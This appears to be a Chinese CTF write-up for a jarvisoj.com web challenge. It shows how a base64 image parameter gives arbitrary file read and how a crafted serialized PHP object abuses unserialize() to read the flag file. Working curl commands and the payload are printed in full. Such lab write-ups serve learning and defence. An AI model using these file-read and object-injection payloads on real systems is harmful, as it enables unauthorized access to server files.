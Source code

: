 # jarvisoj.com -- WEB -- 神盾局的秘密

## Challenge

```
这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

题目入口：http://web.jarvisoj.com:32768/
```

## Solution

打开网页，只有一张图片。在浏览器调试控制台里看下网页的html代码：

```html
<html>
    <head></head>
    <body cz-shortcut-listen="true">
        <img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%">
    </body>
</html>
```

这个图片的地址很令人玩味，我们用base64解码 `c2hpZWxkLmpwZw==` 可以得到 `shield.jpg`。这里我们可以怀疑有任意文件读取漏洞。

我们不妨试试读取 `showimg.php`：

```console
$ curl http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA=
<?php
        $f = $_GET['img'];
        if (!empty($f)) {
                $f = base64_decode($f);
                if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
                && stripos($f,'pctf')===FALSE) {
                        readfile($f);
                } else {
                        echo "File not found!";
                }
        }
?>
```

这一点可以证实我们的猜测。我们不妨再去读取 `index.php` 看看：

```console
$ curl http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw 
<?php
        require_once('shield.php');
        $x = new Shield();
        isset($_GET['class']) && $g = $_GET['class'];
        if (!empty($g)) {
                $x = unserialize($g);
        }
        echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

可以发现这里似乎有一个反序列化漏洞。同时我们再看看 `shield.php`：

```console
$ curl http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocA==
<?php
        //flag is in pctf.php
        class Shield {
                public $file;
                function __construct($filename = '') {
                        $this -> file = $filename;
                }

                function readfile() {
                        if (!empty($this->file) && stripos($this->file,'..')===FALSE
                        && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                                return @file_get_contents($this->file);
                        }
                }
        }
?>
```

这样一来我们不妨把 `new Shield('pctf.php')` 给序列化，然后传给 `index.php`。

序列化后的 `new Shield('pctf.php')` 可以通过下面这个方法获得：

```php
<?php
class Shield {
    public $file;

    function __construct($filename = '') {
        $this -> file = $filename;
    }

    function readfile() {
        if (!empty($this->file) && stripos($this->file,'..')===FALSE && stripos($this->file,'/')===FALSE && stripos($this->file,'')==FALSE) {
            return @file_get_contents($this->file);
        }
    }
}

echo serialize(new Shield('pctf.php'));
```

可以得到 `class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`。

然后用curl就可以得到flag：

```console
$ curl -G 'http://web.jarvisoj.com:32768/index.php' --data-urlencode 'class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}'
```

